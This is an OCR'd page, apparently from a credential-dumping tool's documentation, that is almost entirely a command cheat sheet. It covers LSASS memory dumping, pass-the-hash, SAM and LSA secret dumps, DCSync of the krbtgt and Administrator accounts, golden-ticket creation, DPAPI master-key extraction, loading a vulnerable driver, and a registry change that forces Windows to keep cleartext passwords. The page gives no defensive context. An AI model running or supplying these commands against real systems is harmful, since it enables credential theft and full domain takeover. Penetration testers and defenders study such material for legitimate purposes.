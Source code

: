 ```bash
sekurlsa::process         # Reinit to LSASS process
sekurlsa::minidump <file> # Load from minidump file

# Pass-the-Hash
sekurlsa::pth /user:admin /domain:corp /ntlm:hash /run:cmd

# Offline Dumping
lsadump::sam              # Dump SAM database
lsadump::secrets          # Dump LSA secrets
lsadump::cache            # Dump domain cache
lsadump::dcsync /user:krbtgt /domain:corp.local

# Kerberos
kerberos::list            # List tickets
kerberos::ptt <ticket>    # Pass-the-ticket
kerberos::golden          # Create golden ticket

# DPAPI
crypto::certificates /export    # Export certificates
dpapi::masterkey                # Extract master keys

# Driver Management (new)
driver::load <path>       # Load vulnerable driver
driver::unload            # Unload driver
driver::test              # Test driver interface
```

### Advanced Usage

**Enable WDigest (requires reboot)**:
```bash
# Registry modification
privilege::debug
misc::wdigest

# Or manually
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

**Export Everything**:
```bash
log output.txt
privilege::debug
sekurlsa::logonpasswords
sekurlsa::tickets /export
crypto::certificates /export
dpapi::masterkey
```

**DCSync (Domain Controller)**:
```bash
lsadump::dcsync /user:Administrator /domain:corp.local
lsadump::dcsync /user:krbtgt /domain:corp.local  # For golden tickets
```
